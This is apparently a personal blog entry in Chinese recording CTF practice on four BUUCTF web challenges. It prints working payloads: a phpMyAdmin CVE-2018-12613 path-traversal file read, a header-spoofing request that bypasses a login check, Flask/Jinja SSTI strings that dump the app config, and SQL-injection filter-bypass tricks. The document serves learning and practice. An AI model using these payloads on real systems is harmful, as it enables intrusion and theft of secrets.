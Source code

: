 ```yaml
---
layout: article
mathjax: true
tag: buu
---
```


# buu摸鱼日记（12）

## [GWCTF 2019]我有一个数据库

用nikto直接扫出来了Phpmyadmin，然后就进了后台，然后停止了思考

这个搞不出来主要是要一个cve-2018-12613-PhpMyadmin后台文件包含

https://www.jianshu.com/p/fb9c2ae16d09

就是过滤不严导致的一个CVE，可以造成文件读取，RCE什么的

```
/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag
```

## [BJDCTF 2nd]假猪套天下第一

绕的我有点晕

尝试sql注入的时候返回L0g1n.php

等的时候发现要改请求头

一通改就行，最后是这样的

```http
GET /L0g1n.php HTTP/1.1
Host: node3.buuoj.cn:28328
User-Agent: Commodore 64
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=99ql7tggdcn8nt36tbm1chlc66; time=1594460329999
Upgrade-Insecure-Requests: 1
Client-Ip: 127.0.0.1
Referer: gem-love.com
From: root@gem-love.com
via: y1ng.vip
```

注释里base64解开就是flag

## [WesternCTF2018]shrine

麻了，又搜bypass搜到wp了

源码审计一看就知道是ssti

```python
import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')
@app.route('/') 
def index(): 
    return open(__file__).read() 
    
@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self'] 
        return ''.join(['% set =None%}}'.format(c) for c in blacklist]) + s 
    return flask.render_template_string(safe_jinja(shrine)) 


if __name__ == '__main__': 
    app.run(debug=True) 
```

试了一下{{7*7}}果然如此

利用app回调到sys再返回app来绕过相应权限问题以及括号，最后用\_\_dict\_\_吧所有的都翻出来

```python
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```

或者是利用app python的自带函数

```
{{url_for.__globals__['current_app'].config}}
```

url_for回调到相应app然后把config输出出来

（这里只有过滤直接输入config和self的）

## [SWPU2019]Web1

一开始以为是xss(并不是)

这sql注入居然有23列！太你妈坑了

学了下bypass技巧

```
group/**/by/**/22
可以替代order by
```

被过滤# -- 可以用'1之类的方法补掉后面

[http://lz2y.top/index.php/2020/04/%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95-swpu2019web1/](http://lz2y.top/index.php/2020/04/刷题记录-swpu2019web1/)

莫名其妙复现不出来，明天在研究吧（有点恶心）